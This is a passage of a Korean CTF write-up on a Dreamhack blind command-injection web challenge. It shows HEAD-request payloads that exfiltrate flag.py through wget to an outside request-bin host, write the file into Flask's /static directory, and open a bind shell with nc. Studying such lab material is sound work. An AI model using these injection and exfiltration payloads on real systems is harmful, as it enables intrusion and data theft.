 위 명령어가 시스템 함수에 전달되도록 `HEAD` 메서드를 통해 웹 서버에 전달하면 된다. 그럼 아래와 같이 작성할 수 있다.

```
HEAD /?cmd=wget+https://dzmnkob.request.dreamhack.games/?query="$(cat+flag.py)" HTTP/1.1
```

이렇게 Payload를 전달하면, 아래와 같이 QueryString에 실행 결과가 URL 인코딩되어 담겨오는 것을 확인할 수 있다.

<img width="870" alt="image" src="https://github.com/user-attachments/assets/244941fe-6b04-4696-8b0f-644d0de0ded4">

해당 값을 URL 디코딩해보면 똑같이 플래그 문자를 아래와 같이 얻을 수 있다.

<img width="600" alt="image" src="https://github.com/user-attachments/assets/004127bd-cb3e-450e-89b3-291b0949390e">

<br>

### 2. Static File Directory

`flask`를 포함한 다양한 프레임워크 또는 웹 에플리케이션에서는, 여러 정적 리소스를 다루기 위해 **Static File Directory**로 `/static` 경로를 사용한다.

따라서, `HEAD` 메서드를 통해 아래의 명령어를 전달해준 후, `/static/flag_result.txt`에 접근하면 해당 정적 리소스를 출력할 수 있을 것이다.

```shell
mkdir static; cat flag.py > static/flag_result.txt
```

위 명령어는 먼저 **Static File Directory**인 `/static` 디렉토리를 만들어주고, 해당 디렉토리의 `flag_result.txt` 파일에 `>` 메타 문자를 통해 `cat flag.py`의 출력결과를 저장해준다.

참고로, `>>`은 파일의 맨끝에 추가해주는 메타 문자이며, `flag_result.txt` 파일이 존재하지 않으면 자동으로 생성해준다.

그럼 아래와 같은 Payload를 전달해주면 된다.

```
HEAD /?cmd=mkdir+static;cat+flag.py>static/flag_result.txt HTTP/1.1
```

Payload를 전달해준 후, `http://host3.dreamhack.games:10383/static/flag_result.txt` URL로 들어가게 되면, **Static File Directory**에 존재하는 파일에 접근하기 때문에, 

`flag_result.txt` 파일의 내용이 아래와 같이 웹 페이지에 출력되는 것을 확인할 수 있다.

<img width="591" alt="image" src="https://github.com/user-attachments/assets/0df909ae-6abd-4bcf-9dbb-117eed272b27">

`flask`에는 **Static File Directory**로 `/static` 경로를 사용하기 때문에, `/static`이 아닌 다른 이름의 디렉토리를 생성하여 접근하면, 파일을 출력해주지 않는 것을 주의하자.

<br>

### 3. Bind Shell

위 방법은 서버의 특정 port를 열어 공격자가 접속하는 방법이다. [링크](https://velog.io/@buaii/blind-command)의 풀이를 참고하였다.

```shell
nc -lvp [portnum]
```

위와 같은 명령어를 수행하도록 시스템 함수에 전달해주면 된다.

